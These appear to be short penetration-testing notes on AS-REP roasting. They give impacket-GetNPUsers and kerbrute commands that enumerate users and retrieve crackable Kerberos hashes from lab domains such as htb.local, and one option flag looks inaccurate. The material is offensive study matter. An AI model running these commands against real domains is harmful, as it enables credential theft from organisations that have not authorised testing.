 
In this context, GetNPUsers is used to exploit the AS-REP (Authentication Service Response) protocol to request tickets without having the need to provide the account's password. **It targets user accounts that have the "Do not require Kerberos preauthentication" flag set, allowing the retrieval of credentials that can be cracked offline.**

# Kerberos Pre-Authentication disabled

**will give service user**
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161
```

**will bring user hashes**

```sh
impacket-GetNPUsers joshi.local/ -dc-ip 192.168.1.100 -u user-Principal-Name-for-kerberoasting.txt
```


```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt 
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
